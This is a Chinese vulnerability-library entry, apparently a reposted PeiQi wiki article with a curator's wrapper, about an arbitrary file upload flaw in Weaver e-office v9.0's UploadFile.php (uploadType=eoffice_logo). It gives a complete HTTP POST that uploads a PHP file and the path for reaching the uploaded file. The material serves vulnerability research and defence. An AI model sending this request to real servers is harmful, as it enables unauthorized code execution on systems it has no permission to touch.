







# 泛微e-office9 UploadFile.php uploadPicture logo上传

## 条目说明

- 对象与具体问题：泛微e-office9；UploadFile.php uploadPicture logo上传
- 版本、配置及部署条件：v9.0；uploadType=eoffice_logo特例
- 认证与权限前提：样本含会话，未说明登录要求
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 同CNVD49104接口/落点，新增uploadType分支根因解释，值得合并保留
- 源码仅截图；multipart字段丢失影响复现，应借完整专项恢复
- 标题被捕获仅指原公告，不应直接作为在野证据；广告图片占比高

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/uAhcQ8O1HKHZ6JLZ_pmNzg)


****


**一****：漏洞描述🐑**

  

看朋友圈的时候发现都转发了一条漏洞预警

https://mp.weixin.qq.com/s/P75K_0869h-nWHRMu06zgQ




二:  漏洞影响🐇

  

泛微 e-office v9.0


三:  漏洞复现🐋

  

  

根据漏洞预警的图片修复描述来看一下源代码

  

  

  

  

存在漏洞的源代码位置，主要是源于 uploadType 参数设为 eoffice_logo 时，对文件没有校验，导致任意文件上传  



  

调用方法 uploadPicture



  

构造请求上传文件即可

```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 127.0.0.1:7899
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; 
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

> 请求长度说明：原资料 Content-Length 为 193；保留原始标头；其数值未据实际请求体重新计算或验证。



  

上传成功后访问 /images/logo/logo-eoffice.php




 五:  关于文库🦉

  

  

                    https://www.yuque.com/peiqiwik                           



最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**


**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
